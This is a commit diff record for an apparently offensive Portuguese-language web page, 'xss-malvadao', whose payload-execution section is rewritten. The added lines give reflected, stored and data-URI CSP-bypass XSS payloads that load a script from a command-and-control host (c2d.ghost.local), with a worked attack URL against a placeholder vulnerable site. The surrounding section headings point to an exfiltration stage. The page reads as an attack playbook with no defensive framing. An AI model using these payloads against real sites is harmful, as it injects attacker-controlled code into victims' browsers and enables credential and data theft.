

Before and after one commit to sucloudflare/xss-malvadao, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 7375-8325 px from the top of the page, without its empty margins (108-1171 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -412,16 +412,20 @@ openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -node
         </div>
 
         <div class="section" id="payload">
-            <h2>9. Execução do Payload</h2>
-            <h4>Reflected XSS</h4>
-            <pre>
-&lt;script src=https://c2d.ghost.local/payload/phantom_zero.min.js&gt;;//&gt;&lt;/script&gt;
-            </pre>
-            <h4>Data URI (CSP Bypass)</h4>
-            <pre>
-&lt;script src="data:text/javascript;base64,BASE64"&gt;&lt;/script&gt;
-            </pre>
-        </div>
+    <h2>9. Execução do Payload</h2>
+
+    <h4>Reflected XSS</h4>
+    <pre>"&gt;&lt;script src="https://c2d.ghost.local/payload/phantom_zero.min.js"&gt;&lt;/script&gt;</pre>
+
+    <h4>Stored XSS</h4>
+    <pre>&lt;script src="https://c2d.ghost.local/payload/phantom_zero.min.js"&gt;&lt;/script&gt;</pre>
+
+    <h4>Data URI (Bypass CSP)</h4>
+    <pre>&lt;script src="data:text/javascript;base64,BASE64_DO_PAYLOAD_AQUI"&gt;&lt;/script&gt;</pre>
+
+    <p><strong>Exemplo prático (Reflected):</strong></p>
+    <pre>https://vulnerable.site/search?q="&gt;&lt;script src=https://c2d.ghost.local/payload/phantom_zero.min.js&gt;&lt;/script&gt;</pre>
+</div>
 
         <div class="section" id="exfil">
             <h2>10. Canais de Exfiltração</h2>
```
